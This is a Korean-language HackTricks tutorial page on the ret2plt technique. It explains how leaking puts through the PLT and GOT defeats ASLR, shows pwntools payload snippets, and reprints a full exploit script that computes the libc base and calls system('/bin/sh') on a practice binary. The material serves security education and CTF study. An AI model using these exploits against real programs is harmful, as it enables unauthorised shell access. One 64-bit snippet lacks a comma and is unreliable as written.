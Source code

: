 # Ret2plt

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## 기본 정보

이 기술의 목표는 **PLT에서 함수의 주소를 노출**하여 ASLR을 우회할 수 있도록 하는 것입니다. 예를 들어, libc에서 `puts` 함수의 주소를 노출하면 **`libc`의 베이스가 어디인지 계산**하고 **`system`**과 같은 다른 함수에 액세스하기 위한 오프셋을 계산할 수 있습니다.

이는 `pwntools` 페이로드를 사용하여 수행할 수 있습니다 ([**여기에서**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)).
```python
# 32-bit ret2plt
payload = flat(
b'A' * padding,
elf.plt['puts'],
elf.symbols['main'],
elf.got['puts']
)

# 64-bit
payload = flat(
b'A' * padding,
POP_RDI,
elf.got['puts']
elf.plt['puts'],
elf.symbols['main']
)
```
**`puts`** (PLT에서 주소를 사용)가 호출될 때 `puts`의 주소가 위치한 GOT(Global Offset Table)의 주소로 호출되는 것에 주목하세요. 이는 `puts`가 `puts`의 GOT 항목을 출력할 때, 이 **항목은 메모리에서 `puts`의 정확한 주소를 포함**하게 되기 때문입니다.

또한 exploit에서 `main`의 주소가 사용되는 방법에 주목하세요. 이렇게 함으로써 `puts`가 실행을 마치면 **바이너리가 종료되는 대신에 다시 `main`을 호출**합니다 (따라서 유출된 주소는 계속 유효할 것입니다).

{% hint style="danger" %}
이 작업이 작동하려면 **바이너리가 PIE로 컴파일되어서는 안 되거나 PIE를 우회하기 위한 유출을 찾아야** 합니다. 그렇지 않으면 먼저 PIE를 우회해야 합니다.
{% endhint %}

[**이 우회의 전체 예제를 여기에서 찾을 수 있습니다**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass). 이것이 해당 **예제의 최종 exploit**이었습니다:
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
'A' * 32,
elf.plt['puts'],
elf.sym['main'],
elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
libc.sym['exit'],
next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```
## 다른 예시 및 참고 자료

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64비트, ASLR 활성화되어 있지만 PIE가 없는 경우, 첫 번째 단계는 canary의 바이트 0x00까지 오버플로우를 채운 후 puts를 호출하여 릭(Leak)합니다. Canary로부터 ROP 가젯을 생성하여 GOT에서 puts의 주소를 릭하고 `system('/bin/sh')`를 호출하는 ROP 가젯을 호출합니다.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64비트, ASLR 활성화되어 있지만 canary가 없는 경우, 메인 함수에서의 스택 오버플로우가 발생하는 자식 함수에서 발생합니다. puts를 호출하여 GOT에서 puts의 주소를 릭한 다음 원 가젯을 호출하는 ROP 가젯입니다.
